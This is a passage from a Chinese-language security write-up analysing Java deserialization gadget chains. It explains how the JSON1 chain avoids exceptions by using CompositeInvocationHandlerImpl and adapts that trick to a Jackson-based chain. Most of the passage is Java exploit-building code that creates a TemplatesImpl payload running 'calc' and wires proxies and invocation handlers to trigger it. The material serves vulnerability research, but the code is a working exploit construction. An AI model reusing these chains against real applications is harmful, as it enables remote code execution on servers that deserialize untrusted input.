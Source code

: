 ```java
        Reflections.setFieldValue(t1, "dataMap", jo);
        Reflections.setFieldValue(t2, "dataMap", jo);
		// [6]
        return Gadgets.makeMap(t1, t2);
    }
```
`JSON1`在反序列化的过程中会触发`getCompositeType`方法并产生异常，故使用`CompositeInvocationHandlerImpl`对`CompositeData`类中的`getter`进行分流处理，使用`AnnotationInvocationHandler`直接响应有效对象避免调用过程中的异常。  
而对于需要调用的目标方法（TemplatesImpl的getOutputProperties方法）则使用`JdkDynamicAopProxy`代理进行简单的反射方法调用即可。    
`JSON1`链的简要调用流程图下。  
![](009.png)  
## 拓展
在`JSON1`的例子中我们使用了`CompositeInvocationHandlerImpl`根据方法声明类选择不同的`invocationHandler`对方法进行处理，其目的是为了屏蔽`getCompositeType`调用异常，  
同样的在`Jackson`中也存在方法调用异常，不过在这里利用的却是反射获取代理类的特性。那么是否可以将`CompositeInvocationHandlerImpl`用于`Jackson`中呢？  
以下是对原始的`Jackson`链进行改造后的代码。  
```java
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
        Object templates = Gadgets.createTemplatesImpl("calc");

//        AdvisedSupport advisedSupport = new AdvisedSupport();
//        advisedSupport.setTarget(templates);
//        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
//        constructor.setAccessible(true);
//        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
//        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);

        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templates);
        InvocationHandler delegateInvocationHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", new Object[]{as});
        // 此处传入到JdkDynamicAopProxy中的参数也为as，因为StylesheetDomHandler只是用来充数的，其功能并不重要，重要是有而不是功能，因为并不会有方法调用会触发到该处理器的invoke方法
        InvocationHandler StylesheetDomHandler = (InvocationHandler) Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", new Object[]{as});
        Class<?>[] allIfaces = (Class[])((Class[]) Array.newInstance(Class.class, 2));
        allIfaces[0] = Serializable.class;
        allIfaces[1] = DOM.class;
        // 创建代理类同时代理DOM接口以及Serializable接口，因为getStylesheetDOM方法需要响应一个 DOM 类型对象，但是DOM的几个实现类都没有实现Serializable接口不可序列化
        // 所以需要同时代理 Serializable 接口
        Object o = Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, StylesheetDomHandler);
        //
        InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getStylesheetDOM", o));
        InvocationHandler invocationHandler = (InvocationHandler)Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl", new Object[0]);
        // getStylesheetDOM的定义类为 TemplatesImpl 所以这里通过 TemplatesImpl.class 索引
        // 当getStylesheetDOM方法被调用是就会使用 cdsInvocationHandler 来进行实际的方法调用
        // cdsInvocationHandler 是一个 AnnotationInvocationHandler 对象可以用来替换返回对象类型。
        ((Map)Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(TemplatesImpl.class, cdsInvocationHandler);
        Reflections.setFieldValue(invocationHandler, "defaultHandler", delegateInvocationHandler);
        Templates cdsProxy = Gadgets.createProxy(invocationHandler, Templates.class);

```